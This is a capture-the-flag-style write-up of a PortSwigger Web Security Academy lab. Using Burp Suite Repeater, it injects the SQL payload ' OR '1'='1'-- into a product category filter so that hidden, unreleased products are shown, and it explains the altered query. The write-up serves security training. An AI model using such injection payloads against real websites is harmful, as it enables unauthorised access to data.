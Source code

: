 ```yaml
---
description: https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data
---
```


# SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

<figure><img src="../../../.gitbook/assets/1 (158).png" alt=""><figcaption></figcaption></figure>

Let's filter by `Accessories`.

<figure><img src="../../../.gitbook/assets/2 (9).png" alt=""><figcaption></figcaption></figure>

The resultant SQL query is:

```
SELECT * FROM products WHERE category = 'Accessories' AND released = 1
```

Since we are proxying the traffic through Burp Suite, we can access this request in the `Proxy> HTTP History` tab.

<figure><img src="../../../.gitbook/assets/5 (7).png" alt=""><figcaption></figcaption></figure>

Let's forward this request to the `Repeater` for further modification.

Once in the `Repeater`, we can set the `categories` filter to the following:

```
' OR '1'='1'--
```

The resultant SQL query will be:

```
SELECT * FROM products WHERE category = '' OR '1' = '1'--' AND released = 1

## Queried part:
SELECT * FROM products WHERE category = '' OR '1' = '1'

## Commented part:
' AND released = 1
```

Since 1 is always equal to 1, the server will output all the categories. And since, we are commenting out the `AND released = 1` part, even the unreleased products will be output.

<figure><img src="../../../.gitbook/assets/4 (6).png" alt=""><figcaption></figcaption></figure>

We have solved the lab.

<figure><img src="../../../.gitbook/assets/6 (5).png" alt=""><figcaption></figcaption></figure>

